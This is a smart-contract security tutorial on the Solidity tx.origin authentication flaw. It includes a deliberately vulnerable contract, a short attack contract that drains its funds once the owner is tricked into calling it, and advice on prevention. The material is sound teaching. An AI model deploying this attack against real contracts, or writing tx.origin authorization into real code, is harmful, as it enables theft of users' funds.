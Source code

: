 # Tx.origin Authentication

## Tx.Origin Authentication

[https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc\#txorigin-authentication](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#txorigin-authentication)  
Solidity has a global variable, `tx.origin`, which traverses the entire call stack and contains the address of the account that originally sent the call \(or transaction\). Using this variable for authentication in a smart contract leaves the contract vulnerable to a phishing-like attack.  
Note: For further reading, see dbryson’s [Ethereum Stack Exchange questio](http://bit.ly/2PxU1UM)n, “[Tx.Origin and Ethereum Oh My!](http://bit.ly/2qm7ocJ)” by Peter Vessenes, and “[Solidity: Tx Origin Attacks](http://bit.ly/2P3KVA4)” by Chris Coverdale.

### The Vulnerability

Contracts that authorize users using the `tx.origin` variable are typically vulnerable to phishing attacks that can trick users into performing authenticated actions on the vulnerable contract.  
Consider the simple contract in [Phishable.sol](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#phishable_security).

contract Phishable {  
    address public owner;

    constructor \(address \_owner\) {  
        owner = \_owner;  
    }

    function \(\) public payable {} // collect ether

    function withdrawAll\(address \_recipient\) public {  
        require\(tx.origin == owner\);  
        \_recipient.transfer\(this.balance\);  
    }  
}

Notice that on line 11 the contract authorizes the `withdrawAll()` function using `tx.origin`. This contract allows for an attacker to create an attacking contract of the form:

import "Phishable.sol";

contract AttackContract {

    Phishable phishableContract;  
    address attacker; // The attacker's address to receive funds

    constructor \(Phishable \_phishableContract, address \_attackerAddress\) {  
        phishableContract = \_phishableContract;  
        attacker = \_attackerAddress;  
    }

    function \(\) payable {  
        phishableContract.withdrawAll\(attacker\);  
    }  
}

The attacker might disguise this contract as their own private address and socially engineer the victim \(the owner of the Phishable contract\) to send some form of transaction to the address—perhaps sending this contract some amount of ether. The victim, unless careful, may not notice that there is code at the attacker’s address, or the attacker might pass it off as being a multisignature wallet or some advanced storage wallet \(remember that the source code of public contracts is not available by default\).  
In any case, if the victim sends a transaction with enough gas to the AttackContract address, it will invoke the fallback function, which in turn calls the withdrawAll function of the Phishable contract with the parameter attacker. This will result in the withdrawal of all funds from the Phishable contract to the attacker address. This is because the address that first initialized the call was the victim \(i.e., the owner of the Phishable contract\). Therefore, tx.origin will be equal to owner and the require on line 11 of the Phishable contract will pass.

### Preventative Techniques

tx.origin should not be used for authorization in smart contracts. This isn’t to say that the tx.origin variable should never be used. It does have some legitimate use cases in smart contracts. For example, if one wanted to deny external contracts from calling the current contract, one could implement a require of the form require\(tx.origin == msg.sender\). This prevents intermediate contracts being used to call the current contract, limiting the contract to regular codeless addresses.

### Resources

* [https://blog.sigmaprime.io/solidity-security.html\#tx-origin](https://blog.sigmaprime.io/solidity-security.html#tx-origin)
* [https://github.com/KadenZipfel/smart-contract-attack-vectors/blob/master/vulnerabilities/authorization-txorigin.md](https://github.com/KadenZipfel/smart-contract-attack-vectors/blob/master/vulnerabilities/authorization-txorigin.md)

